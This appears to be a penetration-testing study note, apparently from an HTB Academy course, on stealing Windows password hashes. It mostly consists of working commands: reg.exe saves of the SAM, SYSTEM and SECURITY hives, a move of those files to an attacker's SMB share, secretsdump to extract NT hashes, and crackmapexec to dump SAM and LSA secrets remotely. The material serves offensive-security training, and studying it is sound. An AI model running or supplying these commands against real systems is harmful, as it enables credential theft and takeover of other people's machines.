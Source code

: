 # Copying SAM Registry Hives
**What we need?**
---Local admin user with password from windows target

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. Here is a brief description of each in the table below:

![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/ffec8edc-1f07-4ad2-b0d6-ff610b1a97fb)
We can create backups of these hives using the reg.exe utility.

We have to launch cmd as admin in order to copy hives:
Commands to copy:
```bash
reg.exe save hklm\sam C:\sam.save
```
```bash
reg.exe save hklm\system C:\system.save
```
```bash
reg.exe save hklm\security C:\security.save
```
Technically we will only need hklm\sam & hklm\system, but hklm\security can also be helpful to save as it can contain hashes associated with cached domain user account credentials present on domain-joined hosts.

## Tarnsfer file
We can create ftp, http or smb server to transfer these files to our linux machine.

**Transfering to smb share from windows:**
`move sam.save \\IP\sharename` same for system.save and security.save

## Dumping hashes from linxu using hives:

We will use secretsdump from `/usr/share/doc/python3-impacket/examples`:
```bash
python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
```
Fromat: `Dumping local SAM hashes (uid:rid:lmhash:nthash)`


# Remote Dumping & LSA Secrets Considerations
With access to credentials with `local admin privileges`, it is also possible for us to target LSA Secrets over the network
```bash
crackmapexec smb 10.129.42.198 --local-auth -u user -p password --lsa
```
## Dumping SAM Remotely
```bash
crackmapexec smb 10.129.42.198 --local-auth -u user -p password --sam
```
